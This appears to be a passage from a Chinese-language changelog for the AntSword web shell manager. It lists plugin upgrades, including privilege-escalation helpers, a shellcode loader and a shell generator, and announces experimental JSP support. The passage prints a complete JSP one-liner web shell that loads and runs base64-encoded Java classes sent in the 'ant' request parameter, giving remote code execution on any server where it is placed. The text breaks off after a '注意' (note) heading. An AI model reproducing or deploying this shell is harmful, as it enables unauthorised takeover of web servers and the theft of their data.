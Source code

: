 * [As-Exploits](https://github.com/AntSword-Store/GenShell) 升级到 v1.1

  * 增加对aspx类型的支持
  * 增加提权辅助模块（aspx/jsp/php）
  * 增加屏幕截图模块（jsp）
  * 增加shellcode加载器模块（aspx）
  * 仅展示当前类型可用模块，不可用模块不再显示

* [GenShell](https://github.com/AntSword-Store/GenShell) 升级到 v0.2

 > 新增 asp、aspx、jsp 三种 Shell 类型生成

* [AS_Redis](https://github.com/AntSword-Store/AS_Redis) 升级到 v0.4

  > 支持 jsp 类型

* [PortScan](https://github.com/AntSword-Store/PortScan) 升级到 v0.3

 > 支持 jsp、php4 类型

* [as_netstat](https://github.com/AntSword-Store/as_netstat) 升级到 v0.2

  > 支持所有类型


## 2020/09/10 `v(2.1.9)`

### 核心

* 新增 JSP 类型一句话支持 (**试验功能**)

使用的 Shell 例如：

```
<%!
class U extends ClassLoader{
  U(ClassLoader c){
    super(c);
  }
  public Class g(byte []b){
    return super.defineClass(b,0,b.length);
  }
}
%>
<%
String cls=request.getParameter("ant");
if(cls!=null){
  new U(this.getClass().getClassLoader()).g(new sun.misc.BASE64Decoder().decodeBuffer(cls)).newInstance().equals(pageContext);
}
%>
```

> JSP 类型目前采用硬编码字节码方式, 编译版本为 jdk 1.7, 可根据使用场景自行编译。

代码模版参见: https://github.com/AntSwordProject/AntSword-JSP-Template

**注意**

